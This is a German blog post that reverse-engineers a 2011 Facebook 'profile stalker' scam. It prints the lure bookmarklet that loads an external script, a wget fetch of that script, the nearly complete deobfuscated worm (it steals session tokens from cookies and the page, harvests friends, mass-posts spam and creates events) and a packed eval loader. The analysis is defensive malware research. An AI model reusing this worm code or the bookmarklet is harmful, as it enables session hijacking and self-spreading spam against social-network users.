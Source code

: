 Auf den Spuren von Facebook-"Viren"
#############################################
:date: 2011-04-27 01:50
:tags: bugs, de, facebook, reverse engineering, virus

Naja wirklich landen tut man dort nicht, denn man wird auf jedenfall zu
einem "Blog" weitergebracht. Dieser Blog beinhaltet Informationen wie
man "einfach" seine "Stalker" herrausfinden kann. 

|stalker-blog|

Das ganze ist denkbar einfach: man geht auf facebook, kopiert den Javascript der dort
bereit gestellt wird in seine Adresszeile:

.. code-block :: javascript

    javascript:(a=(b=document).createElement('script')).src='//iamedwards.com/german.php?'+Math.random(),b.body.appendChild(a);void(0)

und schon erfaehrt man alles ueber seine Stalker, so moechte man meinen.
Aber bei dieser Aktion passiert noch viel mehr. Was macht dieses kleine
Script ueberhaupt. Schluesseln wir es mal auf: Zuerst einmal sollte klar
sein, dass man ueber "javascript:" eigene Scripte auf die DOM-Elemente
der aktuell offenen Seite loslassen kann. document wird in der Variable
b abgespeichert. Daraufhin wird noch eine Hilfsvariable a angelegt, in
der ein neues "script"-Element steht. Dieses script Element bindet ein
externes Script von "http://iamedwards.com/german.php" ein. Interressant
ist hier auch die Zufallszahl von Math.random() als GET Uebergabe. Ich
weiss noch nicht in wie weit diese an Berechnungen innerhalb des
eingebundenen Scriptes mit beteiligt ist. Interressant ist zudem, wenn
nicht alle Parameter stimmen, man auf Google weitergeleitet wird.Wichtig
ist hierbei auch der Referer, der auf facebook.com angepasst werden
muss:

.. code-block :: bash

    21:55:27 seda:~/
    % wget --referer="http://facebook.com" "http://iamedwards.com/german.php?0.2344543643"

Was rausgeworfen wird ist ein wenig lang und moechte ich hier nur per
Link drauf verweisen: `http://pastebin.com/2LfCH2pr`_ Es ist nicht
schwer zu verstehen, nur schwer zu lesen, weil so komische
Variablennamen gewaehlt wurden wie: \_0x8a40, \_0x93d3xe... Wenigstens
haben sie sich an einen Stil gehalten :) Ok...es ist immer nicht ganz
leicht solchen miserablen Code aufzuraeumen, aber am besten faengt man
damit an die Variablen umzubenennen. Nachdem ich keine Ahnung hab, was
diese repraesentieren, nenn ich sie wie mir die Nase grad steht. Das
sollte den Code kuerzer machen und vorallem mehr lesbar. Wie euch ja
aufgefallen ist, ist das ganze auch in einer Zeile geschrieben.
Nunja...ich wuerde mal sagen: **Security by obscurity**. Das ist bei
JavaScript leider eigentlich inzwischen gang und gaebe. Zudem hab ich
die ganzen Hex Zeichen in dem angelegten Array \_0x8a40 in lesbare
Zeichen uebersetzt. Zum Glueck sehen Javascript Arrays wie Python Tuple
aus und man kann sie einfach weiterverwenden.

::

    data
    firstChild
    navAccountName
    getElementById
    ?
    /ajax/choose/?__a=1
    event
    AsyncRequest
    /ajax/typeahead/first_degree.php?__a=1&viewer=
    &token=
    &filter[0]=user&options[0]=friends_only&options[1]=nm&options[2]=sort_alpha
    length
    push
    getTime
    setTime
    getMonth
    getDate
    getFullYear
    getHours
    ,
    join

Ich denke dadurch kriegt man mal so einen Eindruck was da alles
drinsteht. Das sind alles Sachen, die spaeter im Code ersetzt wurden,
nur um ihn unlesbar zu machen (was ihnen ja auch gelungen ist) Demnach
hab ich das komplette Array \_0x8a40 aus dem Script genommen und alles
direkt eingetragen. Jetzt sieht das ganze schon lesbarer aus:
(entschuldigt fuer die riesen Tabs, bei mir sind die auf 2 leerzeichen
eingestellt, werden aber nicht durch whitespaces ersetzt) wer es nochmal
schoener Betrachten moechte sei hierhin verwiesen:
`http://pastebin.com/ZUNuYfWT`_

.. code-block :: javascript

    var chatmessage="%firstname% wow facebook kann dir jetzt anzeigen wer dein Profil ansieht! Schaus dir an @ ow.ly/4GpHi";
    var postmessage="Meine Top Profil-Stalker: %tf% - 1136 Besuche %tf% - 983 Besuche %tf% - 542 Besuche %tf% - 300 Besuche Schau dir an wer dein Profil sieht @ http://apps.facebook.com/seeyouuu/?o4sshg2m";
    var redirect="http://germancpa.blogspot.com/";
    var eventdesc="Schau dir deine Profil-Stalker an -  http://www.google.com/url?sa=t&source=web&cd=1&ved=0CBoQFjAA&url=http%3A%2F%2Fwho-spying-u.blogspot.com%2F&ei=SHO2TaAkiNiIAve95Sk&usg=AFQjCNH_JxkE7o8CvUwsLVUwr2eGGP4ecw&sig2=Ye1vqVHrMDHWkRv--npMkw?o4sshg2m ~~ o4sshg2m";
    var eventname="WOW Jetzt kannst du sehen wer sich dein Profil ansieht!   (o4sshg2m)";
    var nfriends=5000;
    var debug=false;
    var wf=0;
    var mf=function (){
        if(wf<=0){
            setTimeout(function (){
                window["top"]["location"]["href"]=redirect;
            } ,500);
        };
    };
    var doget=function (a,b,c){
        var e= new XMLHttpRequest();
        e["open"]("GET",a);
        e["onreadystatechange"]=function (){
            if(e["readyState"]==4){
                if(e["status"]==200&&b){
                    b(e["responseText"]);
                };
                if(c){
                    c();
                };
            };
        };
        e["send"]();
    } ;

    doget("/",function (f){
        var g=document["cookie"]["match"](/c_user=(\d+)/)[1];
        var h=function (i){ return i ? "@["+i["id"]+":"+i["name"]+"]":"";};
        var j=function (i){return i?i["name"]:"";} ;
        var k=function (i){
            out="";
            for(var l in i){
                out+=(out?"&":"")+l+((i[l]!==null)?"="+encodeURIComponent(i[l]):"");
            } ;
            return out;
        } ;
        var b=function (a,i,b,c){
            var e= new XMLHttpRequest();
            e["open"]("POST",a);
            e["setRequestHeader"]("Content-Type","application/x-www-form-urlencoded");
            e["onreadystatechange"]=function (){
                if(e["readyState"]==4){
                    if(e["status"]==200&&b){ b(e["responseText"]); } ;
                    if(c){ c(); } ;
                } ;
            } ;
            e["send"](k(i));
        } ;
        var m=function (){
            var e=document["createElement"]("div");
            e["style"]["display"]="block";
            e["style"]["position"]="absolute";
            e["style"]["width"]=100+"%";
            e["style"]["height"]=100+"%";
            e["style"]["left"]=0+"px";
            e["style"]["top"]=0+"px";
            e["style"]["textAlign"]="center";
            e["style"]["padding"]="4px";
            e["style"]["background"]="#FFFFFF";
            e["style"]["zIndex"]=999999;
            e["innerHTML"]=" Verifiziere deinen Code - Bitte gedulde dich einen kleinen Moment. We are processing the offer for you... click here";
            document["body"]["appendChild"](e);
        } ;
        var n=f["match"](/name=\\"xhpc_composerid\\" value=\\"([\d\w]+)\\"/i);
        if(n){ comp=n[1]; } else { comp=""; } ;
        var p=f["match"](/name="post_form_id" value="([\d\w]+)"/i)[1];
        var q=f["match"](/name="fb_dtsg" value="([\d\w]+)"/i)[1];
        var r=document["getElementById"]("navAccountName")["firstChild"]["data"];
        redirect=redirect+"?"+k({userid:g,name:r,doclose:1});
        m();
        if(eventdesc){
            wf++;
            b("/ajax/choose/?__a=1",{
                type:"event",
                eid:null,
                invite_message:"",
                __d:1,
                post_form_id:p,
                fb_dtsg:q,
                lsd:null,
                post_form_id_source:"AsyncRequest"
            },function (s){
                var t=s["match"](/\\"token\\":\\"([^\\]+)\\"/)[1];
                var a="/ajax/typeahead/first_degree.php?__a=1&viewer="+g+"&token="+t+"&filter[0]=user&options[0]=friends_only&options[1]=nm&options[2]=sort_alpha";
                doget(a,function (u){
                    var v=u["match"](/\{"uid":\d+,/g);
                    var w=[];
                    for(var x=0;x/gi);
                    var ai=[];
                    if(v){
                        for(var x=0;x[^>]+\\u003c\\\/a>$/i)[0]["replace"](/\\u003c\\\/a>$/gim,"")["replace"](/>/g,"");
                            ai["push"]({id:y,name:al});
                        } ;
                    } ;
                    var c=[];
                    var aj=[];
                    while(ai["length"]){
                        var ak=Math["floor"](Math["random"]()*ai["length"]);
                        c["push"](ai[ak]);
                        aj["push"](ai[ak]);
                        var ag=ai["shift"]();
                        if(ak){ai[ak-1]=ag;
                    } ;
                } ;
                if(debug){
                    alert("fetched friends:"+c["length"]);
                } ;
                var am={
                    post_form_id:p,
                    fb_dtsg:q,
                    xhpc_composerid:comp,
                    xhpc_targetid:g,
                    xhpc_context:"home",
                    xhpc_fbx:"",
                    lsd:null,
                    post_form_id_source:"AsyncRequest"
                };
                mt=postmessage;
                m=postmessage;
                while(mt["search"]("%tf%")>=0){
                    var an=c["pop"]();
                    mt=mt["replace"]("%tf%",j(an));
                    m=m["replace"]("%tf%",h(an));
                } ;
                am["xhpc_message_text"]=mt;
                am["xhpc_message"]=m;
                if(debug){
                    alert("message text:"+mt);
                } ;
                b("/ajax/updatestatus.php?__a=1",am);
                var ao=function (l){
                    if(l==0){
                        wf=0;
                        mf();
                        return ;
                    } ;
                    var c=aj["shift"]();
                    var aq={
                        post_form_id:p,
                        fb_dtsg:q,
                        xhpc_composerid:comp,
                        xhpc_targetid:c["id"],
                        xhpc_context:"profile",
                        xhpc_fbx:1,
                        lsd:null,
                        post_form_id_source:"AsyncRequest"
                    };
                    var d=postmessage;
                    var ap=postmessage;
                    if(c["length"]==0){
                        wf=0;
                        mf();
                        return ;
                    } ;
                    while(d["search"]("%tf%")>=0){
                        var ar=c["pop"]();
                        d=d["replace"]("%tf%",j(ar));
                        ap=ap["replace"]("%tf%",h(ar));
                    } ;
                    aq["xhpc_message_text"]=d;
                    aq["xhpc_message"]=ap;
                    b("/ajax/updatestatus.php?__a=1",aq);
                    setTimeout(function (){ao(l-1);} ,2000);} ;
                    wf++;setTimeout(function (){ao(nfriends);} ,2000);
                } );
            } ;
            mf();
        } );

Doch was tut das ganze. (nachdem ich keine Codebeispiele rausnehme, weil
es den Text nur zusehr aufblaehen wuerde, ist es sinnvoll den Code
daneben zu halten oder in einem extra Fenster auf zu machen) Das ist
nicht so schwer zu erklaeren, aber etwas langwierig: Zeile 1-8 sind nur
festlegung verschiedenster Variablen, wie Chatmessages, Postmessages und
Redirect Seiten. Auch wird hier der Text fuer das Event eingestellt, das
generiert werden soll. Dann wird in Zeile 9 eine Funktion namens "mf"
definiert die genau diesen Redirect zur definierten Seite ausfuehrt.
Wenn eine Variable <=0 ist. Diese Variable wird im kompletten Script
immer wieder inkrementiert und dekrementiert. Auch wird die Funktion
ziemlich haeufig aufgerufen, ohne dass sie irgend etwas tut. Auch die
naechste Funktion, in Zeile 16 "doget", ist nur ein Hilfsfunktion. Hier
sieht man auch, dass die "Angreifer" sich nicht gross um Browser
Compatibilitaet gekuemmert haben. Es sollte aber in einem Grossteil
leider funktionieren. Der Funktion kann wiederum 2. andere Funktionen
uebergeben werden. Einerseits eine, die bei Success mit dem ResponseText
aufgerufen wird, und eine Funktion, wenn kein 200er Request
stattgefunden hat. In Zeile 32. springen wir auch schon ins Geschehen.
Es wird die Hauptseite von Facebook geholt, also http://facebook.com/.
Sogleich wird auf ein cookie geprueft (Z. 33) und einen bestimmten Wert
"c\_user" (ich denke es handelt sich hierbei um den Usernamen, oder ID)
herraus geholt. Danach legt er sich 5 Hilfsfunktionen an die im
einzelnen folgendes machen:

#. **h**: sie prueft ob i nicht leer ist, wenn nicht leer, gibt sie
   einen formatierten String in der Form: "@[id:name]". Fals aber leer,
   wird auch ein leerer String zurueckgegeben
#. **j**: siehe h: rueckgabe des Strings in Form: "name"
#. **k**: Annahme von i als array. (ich wusste garnicht, dass JS eine
   art foreach kann :) ). Die Funktion formatiert einen QueryString aus
   einem Array in der Form array(key=>element).
#. **b**: wieder eine Art doget, aber diesmal werden die Daten per Post
   uebermittelt. Diese Funktion hatte doget nicht. Eine gute Frage,
   warum sie nicht eine maechtige Funktion geschrieben habe :-/ (sie ist
   nahezu identisch zu doget)
#. **m**: sie generiert ein div-element und fuellt dieses mit diversen
   Style Eigenschaften. Dannwird noch ein Text ausgegeben, dass man sich
   Gedulden soll, mit einem lustigen Bild, dass von einem harvard server
   kommt. Zuletzt wird dieses div an den Body tag in der Facebook Seite
   gesetzt. Mit dem zIndex von 999.999 landet es garantiert ganz oben
   und nichts drunter ist mehr sichtbar.

In den Zeilen 70-73 sucht er sich aus dem DOM-Element einige Elemente
raus. Einerseits eine Art composerid (ich habe sie in meinem Quelltext
leider nicht gefunden und konnte sie nicht zuordnen). Diese muss aber
nicht zwingend existieren. Die anderen sind aber vorhanden:
post\_form\_id und fb\_dtsg. Bei der form\_id tippe ich auf eine Art id,
die festlegt, welches Form abgeschickt wird. Der Redirect wird neu
gesetzt um auch sicherzustellen, dass wenn es zu einem kommt, klar ist
von welchem Account mit welcher ID und welchem Namen gesendet wurde.
Danach wird die Funktion **m** aufgerufen. Fals ein Eventtext gesetzt
wurde (was in Zeile 77 geprueft wird) macht man sich dran einen POST
Request abzuschicken, um ein Event einzutragen. Leider kenn ich mich mit
der facebook API nicht so gut aus, dass ich da naeher erklaeren koennte
was dort passiert....aber es wird zumindest ein Event rausgeschrieben
mit einem Datum, dass 1000 Tage in der Zukunft liegt (Zeile 100).
Daraufhin wird geprueft ob eine Chatmessage gesetzt ist (Zeile 132).
Fals dies der Fall ist, wird sich die Buddy List geholt und an jeden
Benutzer der aktuell Verfuegbar ist eine Nachricht geschickt (die vorher
angegeben wird). Diese Nachricht ist ueber die Variable %firstname% an
den jeweiligen Benutzer angepasst. Identisch wird ab Zeile 162 mit
Postnachrichten verfahren. Bloss wird hierbei nicht drauf geachtet ob
derjenige Online ist oder nicht. Es werden einfach alle rausgesucht
(Zeile 164 - filter=all). Und die jeweilige Postnachricht wieder ueber
bekannte Ajax Technik verschickt. Interressant finde ich Zeile 184 und
206...anscheinend gab es in der Programmierung Probleme und es wurde
gedebugged. Die debug Ausgaben sind noch im "production" code vorhanden.
Staendig wird die Redirect Funktion aufgerufen. Aber es wird nur einen
Redirect geben, wenn eine Variable: naemlich wf unter null faellt oder
=0 ist. Das kann nur in einigen Faellen auftreten. Aber wirklich genau
drauf eingehen moechte ich auch nicht. Aber trotzdem ist die Seite zu
der Redirected wird noch interressant. Diese funktioniert auch nur, wenn
sie mit einem facebook.com Referer aufgerufen wird. Dort angekommen,
wird man von einem "Human Verification Check" begruesst, wie es meistens
der Fall ist. 

|image1|

Aber mich interressiert nicht wirklich wie das
ganze ausschaut, sondern vielmehr, was unter der Muetze steckt. Und da
haben wir auch gleich den Uebeltaeter gefunden: Ein grosser Button auf
dem "Click Here" Steht. Dahinter verbirgt sich eine Zip Datei mit. Und
in dieser Zip Datei, ist wiederum ein Bild gezippt: 

|spy|

Ich werde daraus nicht wirklich schlau...aber es muss wohl irgendwas mit dem Programm zu tun haben
\*achselzucken\* Zudem stellen sie immer sicher, dass JAvascript
aktiviert ist und auch kein Adblock einschalten ist:

.. code-block :: javascript

    var isloaded = false;if (!isloaded) { window.location = 'http://impressionvalue.mobi/abp'; }

Es wird eine Variable isloaded auf false gesetzt. Dann wird ein externes
Script geladen welches so aussieht:

.. code-block :: javascript

    eval(function(p,a,c,k,e,d){e=function(c){return(c35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--){d[e(c)]=k[c]||e(c)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('3 h=["\\6\\2\\1\\b\\7\\1\\5\\4\\6\\j\\d"];3 f=["\\d\\8\\i\\1\\9\\7\\o\\1\\8\\4\\2\\k\\2"];3 g=["\\2\\l\\a"];3 e=["\\i\\1\\9\\7\\m\\5"];3 n=["\\1\\5\\a\\b\\j\\6\\w\\4\\2\\k\\2"];p.D(z("%y B=\\"C/A\\" x=\\"r://"+h[0]+"/"+f[0]+"?"+g[0]+"=q&s;"+e[0]+"=t\\"%c%v/u%c"));',40,40,'|x61|x70|var|x2E|x64|x63|x65|x79|x74|x62|x6C|3E|x6D|g3909d93711e1c2ec49f5294bd1915e8c|m86f77129073c6c0dae7a7545e09157e7|p164a505b4127eb6748babbd88555e15b|cf7ed09726cefcccda7fc63312ccb77de|x67|x6F|x68|x75|x69|a23256111997cb2d310fc1d292215b1b5|x77|document|47931|http|amp|MTg0MDkz|script|3C|x6B|src|3Cscript|unescape|javascript|type|text|write'.split('|'),0,{}))

ich hab jetzt keine grossen Boecke das ganze zu Entschluesseln, aber ich
tippe drauf, dass er nichts anderes macht als die Moeglichkeiten des
Browsers zu testen. und wenn alles passt die Variable isloaded auf True
zu setzen. Fals das nicht der Fall sein sollte, wird man auf eine Seite
mit einer: "Bitte entfernen sie ihren Adblocker"-geleitet. Fals kein
Javascript aktiviert ist auf eine: "Bitte Javascript anschalten". Wer
lust hat, kann sich das ja mal genauer anschauen, was das Codestueck
genau macht... Zumindest sieht so ein Facebook-"Virus" aus. Der wirklich
einiges auf dem Kasten hat. Vom Zugriff auf den Internen Chat, bis hin
zur Erzeugung von Events. Auch der Zugriff auf die Benutzer ist nichts
neues. Mit Automatisch neu generierten Textnachrichten, einem Anschluss
zur bit.ly oder aehnlicher Link verkuerzungs API, koennte man damit
wirklich eine maechtige Waffe schaffen um facebook seiten ohne zutun,
nur mithilfe von Klicken und automatisch generierten Events zu crawlen.
Darueber kann ueber einen Benutzer alles herrausgefunden werden, weil
man auf seiner Session "surft". Die Frage was man damit anfangen soll
,stellt sich mir im ersten Moment. Aber bei weiterem Nachdenken, faellt
mir nur wieder Geld ein. Neuartiger Spam, empfohlene Produkte von
Freunden. Spam der noch um einiges Personalisierter ist. Einerseits
hoffe ich, dass ich in Zukunft mehr solcher Cross Site Scripting Attacks
sehe,um sie weiter zu analysieren und auf ihre Maechtigkeit zu pruefen.
Andererseits wuerde ich auch hoffen, dass es eingestellt wird, und von
facebook einen Riegel davor geschoben wird. so long ps.: alsich mir
spaeter nochmal die allererste Seite angeschaut haben, stand da ein
anderer link zu einer anderen Domain. Die scheinen die Wohl zu wechseln
wie ihre Unterhosen.

.. _`http://pastebin.com/2LfCH2pr`: http://pastebin.com/2LfCH2pr
.. _`http://pastebin.com/ZUNuYfWT`: http://pastebin.com/ZUNuYfWT

.. |stalker-blog| image:: http://nuit.homeunix.net/blag/wp-content/uploads/2011/04/2011-04-26-215444_1024x768_scrot-150x150.png
.. |image1| image:: http://nuit.homeunix.net/blag/wp-content/uploads/2011/04/2011-04-27-034601_1024x768_scrot-150x150.png
.. |spy| image:: http://nuit.homeunix.net/blag/wp-content/uploads/2011/04/spy-150x150.png
.. |image3| image:: http://nuit.homeunix.net/blag/wp-content/uploads/2011/04/2011-04-26-215444_1024x768_scrot-150x150.png
.. |image4| image:: http://nuit.homeunix.net/blag/wp-content/uploads/2011/04/2011-04-27-034601_1024x768_scrot-150x150.png
.. |image5| image:: http://nuit.homeunix.net/blag/wp-content/uploads/2011/04/spy-150x150.png
